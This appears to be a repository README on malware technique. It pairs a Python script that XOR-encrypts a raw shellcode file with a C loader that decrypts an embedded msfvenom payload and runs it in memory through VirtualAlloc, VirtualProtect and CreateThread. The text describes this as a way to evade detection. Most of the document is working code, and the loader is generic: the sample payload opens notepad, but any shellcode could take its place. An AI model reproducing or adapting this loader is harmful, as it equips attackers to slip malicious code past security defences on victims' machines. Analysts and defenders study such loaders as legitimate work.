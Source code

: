 # XOR Encrypted Payload

This Python script illustrates a common technique in malware development, where a simple XOR cipher is used for obfuscating a payload, typically shellcode, to evade detection by security defenses.

The script performs the following key actions:

1.  **XOR Encryption Function**:

    * The `xor` function takes `data` and a `key` as inputs to obfuscate the payload. Each byte of the data is XORed with a byte of the key, cycling through the key as needed.

    This approach helps in preventing static analysis mechanisms from easily identifying malicious payloads embedded within files.

```python

import sys

KEY = "mysecretkey"

def xor(data, key):
    key = str(key)
    l = len(key)
    output = bytearray()

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        output.append(current ^ ord(current_key))

    return output.decode("latin1")


def printCiphertext(ciphertext):
    print("{ 0x" + ", 0x".join(hex(ord(x))[2:] for x in ciphertext) + " };")


try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = xor(plaintext, KEY)
print("{ 0x" + ", 0x".join(hex(ord(x))[2:] for x in ciphertext) + " };")


```

This C code is a typical example used in malware development for executing shellcode in memory. Here's a breakdown of its components:

* **XOR Encryption Function:** The `XOR` function takes data and a key to obfuscate and deobfuscate the payload. This is a common technique used to disguise shellcode from detection mechanisms.
* **Payload Declaration:** The payload is an array of bytes previously processed by XOR encryption using a key, `mysecretkey`, consistent with the XOR function used in Python.
*   **Memory Allocation and Execution:**

    * `VirtualAlloc` is used to allocate memory with read/write permissions, crucial for storing and executing the payload.
    * `RtlMoveMemory` copies the XOR-decrypted payload into the allocated memory.
    * `VirtualProtect` changes the allocated memory's permissions to executable, allowing the payload execution.
    * `CreateThread` and `WaitForSingleObject` are used to execute the payload as a separate thread.

    This code demonstrates techniques used to covertly execute arbitrary code in a Windows environment, often seen in malware to bypass security measures.

```c
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
#include <string.h>

void XOR(char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

// msfvenom -p windows/x64/exec CMD="notepad.exe" -f raw -o notepad.bin
// python3 xor.py notepad.bin
unsigned char payload[] = { 0x91, 0x31, 0xf0, 0x81, 0x93, 0x9a, 0xa5, 0x74, 0x6b, 0x65, 0x38, 0x3c, 0x38, 0x23, 0x37, 0x32, 0x24, 0x2d, 0x45, 0xb9, 0x0, 0x31, 0xe6, 0x2b, 0x13, 0x2d, 0xe8, 0x20, 0x7d, 0x3c, 0xe0, 0x37, 0x59, 0x25, 0xf2, 0x1, 0x35, 0x2b, 0x7d, 0xd2, 0x3e, 0x21, 0x28, 0x48, 0xa4, 0x31, 0x42, 0xa5, 0xcf, 0x4e, 0x4, 0x8, 0x69, 0x49, 0x59, 0x2c, 0xb8, 0xba, 0x68, 0x22, 0x73, 0xa4, 0x96, 0x86, 0x37, 0x38, 0x3c, 0x31, 0xf8, 0x37, 0x43, 0xf9, 0x27, 0x48, 0x23, 0x64, 0xa9, 0xe6, 0xf9, 0xfb, 0x65, 0x63, 0x72, 0x2d, 0xf1, 0xab, 0x11, 0x1e, 0x25, 0x78, 0xa3, 0x35, 0xe8, 0x3a, 0x7d, 0x30, 0xe0, 0x25, 0x59, 0x24, 0x78, 0xa3, 0x86, 0x35, 0x3a, 0x9a, 0xbd, 0x2a, 0xee, 0x4d, 0xe5, 0x31, 0x72, 0xb3, 0x2e, 0x43, 0xac, 0x3c, 0x5a, 0xa5, 0xd5, 0x2c, 0xb8, 0xba, 0x68, 0x22, 0x73, 0xa4, 0x4c, 0x8b, 0x10, 0x88, 0x21, 0x7a, 0x3f, 0x41, 0x6b, 0x37, 0x5c, 0xa5, 0x1e, 0xbd, 0x21, 0x29, 0xf2, 0x33, 0x41, 0x2a, 0x73, 0xb5, 0x12, 0x2a, 0xee, 0x75, 0x25, 0x3d, 0xf8, 0x25, 0x7f, 0x3b, 0x64, 0xa4, 0x2a, 0xee, 0x7d, 0xe5, 0x31, 0x72, 0xb5, 0x22, 0x2a, 0x24, 0x2c, 0x35, 0x3c, 0x23, 0x2c, 0x21, 0x32, 0x3c, 0x22, 0x28, 0x2d, 0xf7, 0x87, 0x45, 0x38, 0x3f, 0x86, 0x93, 0x3d, 0x22, 0x2b, 0x3f, 0x3c, 0xe0, 0x77, 0x90, 0x3a, 0x86, 0x8c, 0x9a, 0x3e, 0x3a, 0xdf, 0x75, 0x6b, 0x65, 0x79, 0x6d, 0x79, 0x73, 0x65, 0x2b, 0xff, 0xe8, 0x75, 0x6a, 0x65, 0x79, 0x2c, 0xc3, 0x42, 0xee, 0xc, 0xf5, 0x9a, 0xa1, 0xd0, 0x95, 0xcc, 0xcf, 0x2f, 0x32, 0xdf, 0xc5, 0xe7, 0xd8, 0xe9, 0x94, 0xb0, 0x31, 0xee, 0xbd, 0x5b, 0x59, 0x65, 0xe, 0x6f, 0xf4, 0x90, 0x85, 0xc, 0x68, 0xc2, 0x34, 0x76, 0x11, 0x1d, 0xf, 0x74, 0x32, 0x24, 0xf0, 0xb7, 0x86, 0xa6, 0xb, 0xc, 0x6, 0x0, 0x4, 0xa, 0x1, 0x57, 0x8, 0x1, 0x16, 0x65 };
unsigned int payload_len = sizeof(payload);
char key[] = "mysecretkey";
	
int main() {
	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	printf("Address of allocated memory: 0x%p\n", (void*)exec_mem);

	XOR((char*)payload, payload_len, key, sizeof(key));

	RtlMoveMemory(exec_mem, payload, payload_len);

	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if (rv != 0) {
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(th, -1);
	}

}
```
